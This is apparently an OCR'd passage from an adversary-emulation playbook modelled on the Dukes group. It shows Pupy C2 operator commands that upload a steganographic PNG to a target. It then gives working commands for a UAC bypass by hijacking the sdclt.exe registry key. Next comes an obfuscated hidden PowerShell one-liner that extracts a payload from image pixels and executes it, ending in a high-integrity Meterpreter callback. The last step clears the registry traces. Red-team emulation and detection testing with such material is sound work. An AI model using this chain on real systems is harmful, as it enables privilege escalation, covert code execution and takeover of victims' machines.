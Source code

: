 From Pupy, upload [monkey.png](/Enterprise/Resources/Scenario_1/monkey.png) to target:

[pupy] > `upload "/tmp/monkey.png" "C:\Users\<username>\Downloads\monkey.png"`
[pupy] > `shell`
[pupy CMD] > `powershell`

##### 3.B - Abuse Elevation Control Mechanism: Bypass User Access Control ([T1088](https://attack.mitre.org/versions/v6/techniques/T1088/) / [T1548.002](https://attack.mitre.org/techniques/T1548/002/))

[pupy (PowerShell)] >

```powershell
New-Item -Path HKCU:\Software\Classes -Name Folder -Force;
New-Item -Path HKCU:\Software\Classes\Folder -Name shell -Force;
New-Item -Path HKCU:\Software\Classes\Folder\shell -Name open -Force;
New-Item -Path HKCU:\Software\Classes\Folder\shell\open -Name command -Force;
Set-ItemProperty -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Name "(Default)"
```

**Paste the following 1-liner when prompted for value:**

```powershell
powershell.exe -noni -noexit -ep bypass -window hidden -c "sal a New-Object;Add-Type -AssemblyName 'System.Drawing'; $g=a System.Drawing.Bitmap('C:\Users\username\Downloads\monkey.png');$o=a Byte[] 4480;for($i=0; $i -le 6; $i++){foreach($x in(0..639)){$p=$g.GetPixel($x,$i);$o[$i*640+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G-band15))}};$g.Dispose();IEX([System.Text.Encoding]::ASCII.GetString($o[0..3932]))"
```

[pupy (PowerShell)] >

```powershell
Set-ItemProperty -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Name "DelegateExecute" -Force
```

**When prompted for value, press: [Enter]**

[pupy (PowerShell)] > `exit`
[pupy (CMD)] > `%windir%\system32\sdclt.exe`
[pupy CMD] > `powershell`

You should receive a high integrity Meterpreter callback.

#### 3.C - Modify Registry ([T1112](https://attack.mitre.org/techniques/T1112/))

[pupy (PowerShell)] > `Remove-Item -Path HKCU:\Software\Classes\Folder* -Recurse -Force`
[pupy (PowerShell)] > `exit`
[pupy (CMD)] > `exit`

#### Cited Intelligence

* Open Invitation Contributors: Kaspersky, Microsoft

* CosmicDuke has occasionally embedded other malware components that are written to disk and executed.<sup> [1](https://www.f-secure.com/documents/996508/1030745/dukes_whitepaper.pdf) </sup>
